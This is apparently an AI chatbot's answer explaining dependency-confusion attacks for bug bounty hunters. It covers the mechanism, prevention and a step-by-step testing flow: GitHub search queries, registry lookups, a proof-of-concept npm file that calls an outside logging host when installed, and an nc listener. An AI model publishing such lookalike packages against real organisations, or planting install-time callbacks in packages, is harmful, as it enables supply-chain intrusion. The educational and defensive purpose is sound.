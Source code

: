https://www.paypal.com/connect/package.json

In bug bounty, **dependency confusion** is a supply chain vulnerability where an attacker tricks a target’s software build process into downloading a **malicious package** from a public repository instead of the intended private/internal one.

---

### How it happens

1. A company uses private packages — e.g., `@company/utils` — stored in a private registry (like an internal npm, PyPI, or RubyGems server).
2. The build or CI/CD process is configured to check **both** the private registry and the public one.
3. If the package is **not found** in the private registry (or if the public registry is checked first), the package manager will fetch it from the public registry instead.
4. An attacker registers the **same package name** publicly and uploads a malicious version.
5. The build process **confuses** the public package for the private one and installs the attacker’s code.

---

### Real-world example

* Alex Birsan’s famous attack (2021) showed that by uploading packages with names matching internal dependencies of companies like Apple, Microsoft, and Tesla, he could execute code inside their networks — earning over **\$130,000 in bug bounties**.

---

### How bug bounty hunters find it

* Look for leaked `package.json`, `requirements.txt`, `Gemfile`, or `setup.py` in public repos.
* Identify dependency names that don’t exist on public package registries but could be registered.
* Attempt to publish a harmless proof-of-concept package to see if the company’s systems fetch it.

---

### How to prevent it

* Use **scoped/private namespaces** that can’t be registered publicly.
* Lock down package managers to only pull from internal registries.
* Enable checksum/hash verification for dependencies.
* Use a **package allowlist**.

---

If you want, I can give you a **step-by-step attacker flow** for testing dependency confusion safely in a bug bounty program so you know exactly how to set it up without breaking rules. That’s what a lot of researchers use to confirm the bug.


---

## **1. Recon & Identification**

* Search for exposed dependency files in the target’s public repos or assets:

  ```bash
  site:github.com <companyname> filename:package.json
  site:github.com <companyname> filename:requirements.txt
  site:github.com <companyname> filename:Gemfile
  ```
* Look for package names that **don’t exist** in public registries but could be public:

  * For **npm**:

    ```bash
    npm view <packagename>
    ```
  * For **PyPI**:

    ```bash
    pip search <packagename>
    ```
  * For **RubyGems**:

    ```bash
    gem search ^<packagename>$
    ```

---

## **2. Verify Vulnerability Potential**

* Confirm package **isn’t registered** on the public registry.
* Check if target uses a build system that **might pull from public registries** (npm, pip, etc.).
* Look for `.npmrc`, `pip.conf`, `.yarnrc`, or similar configs in repos — sometimes they reveal the registry order.

---

## **3. Prepare a Harmless PoC Package**

> ⚠ This must contain **non-malicious** code — just logging or making harmless HTTP requests to your controlled server.

* Example `index.js` for npm:

  ```javascript
  console.log("PoC dependency confusion test");
  require('https').get("https://your-poc-logger.com/?installed=true");
  ```
* Publish to the public registry with the same name as the private dependency.

---

## **4. Monitor for Callback**

* If the target’s build process fetches your package, your PoC server will log the request.
* Example listener:

  ```bash
  nc -lvnp 8080
  ```

  or a hosted logging service like `Burp Collaborator` or `interactsh`.

---

## **5. Document & Report**

* Include:

  * The **package name** targeted.
  * How you confirmed it wasn’t in public registry.
  * The PoC package code (harmless).
  * Evidence of callback (request headers, IP, timestamps).
* Remove the PoC package after reporting.

---

✅ **Golden Rules**

* Never include malicious payloads — only harmless proof-of-concepts.
* Only test in **authorized bug bounty programs** that allow dependency confusion testing.
* Always clean up after testing.

---

If you want, I can make you a **ready-to-run npm PoC package template** for dependency confusion, so you just swap the name and URL. That way you can run it in under 2 minutes.
